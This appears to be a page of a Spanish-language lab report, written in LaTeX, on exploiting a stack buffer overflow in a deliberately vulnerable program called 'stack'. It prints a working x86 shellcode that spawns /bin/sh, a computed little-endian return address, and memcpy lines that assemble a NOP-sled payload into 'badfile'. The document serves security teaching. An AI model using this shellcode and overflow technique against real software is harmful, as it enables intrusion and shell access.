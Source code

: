 \documentclass[11pt]{article}
\begin{document}
Una vez visto cómo se comporta \textbf{stack} y cómo van a estar guardados los datos en memoria,
necesito construir el código malicioso que deberá ejecutar bof y calcular la dirección donde
voy a guardar estas intrucciones para que sea la nueva dirección de retorno.

Para esto voy a utilizar el programa \textbf{exploit}. El enunciado ya provee 
las instrucciones necesarias para explotar la vulnerabilidad:

\begin{verbatim}
char shellcode[] =
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;
\end{verbatim}

Decidí guardar estas instrucciones justo por encima de la return address que voy a modificar,
es decir en ebp + 8 = buffer + 40 = 0xbfffeb60. Para guardar estas instrucciones
en el stack tengo que considerar que x86 es una arquitectura \emph{little-endian},
es decir que va a guardar primero en memoria los bytes menos significativos pero los bytes
del string se almacenan en el orden inverso, por lo que declaro la dirección a guardar
de la siguiente forma:

\begin{verbatim}
char newra[] = "\x60\xeb\xff\xbf";
\end{verbatim}

Creo el string a guardar en un archivo llamado \textbf{badfile} leído por \textbf{stack}
declarando un arreglo buffer de 517 bytes, inicializado con todos sus bytes iguales
a 0x90 (que es igual a la instrucción NOP, esta instrucción no se ejecuta y pasa a la siguiente),
y copio los valores preparados respetando las posiciones calculadas anteriormente.
\begin{verbatim}
memcpy(buffer + 36, newra, 4);
memcpy(buffer + 40, shellcode, 24);
\end{verbatim}
\end{document}
